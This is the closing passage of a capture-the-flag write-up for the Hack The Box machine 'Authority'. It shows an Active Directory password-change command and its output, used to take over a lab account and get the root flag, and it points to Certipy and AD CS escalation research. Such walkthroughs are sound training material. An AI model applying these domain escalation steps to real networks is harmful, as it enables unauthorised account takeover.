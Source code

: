 ```
change_password arth0s Whatever13
Got User DN: CN=arth0s,CN=Users,DC=authority,DC=htb
Attempting to set new password of: Whatever13
Password changed successfully!
```

Voila! We are now able to log in with our newly created user and obtain the root flag.

![](34.png)

Thank you for reading and thank you to the creators of this box [mrb3n](https://app.hackthebox.com/users/2984) and [Sentinal920](https://app.hackthebox.com/users/206770).

If you're interested in diving deeper into abusing ADCS for domain privilege escalation, read the documentation for Certipy, the the Certified Pre-Owned white paper by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin), and you're welcome to check out [my GitHub repo](https://github.com/arth0sz/Practice-AD-CS-Domain-Escalation) dedicated to that as well. 


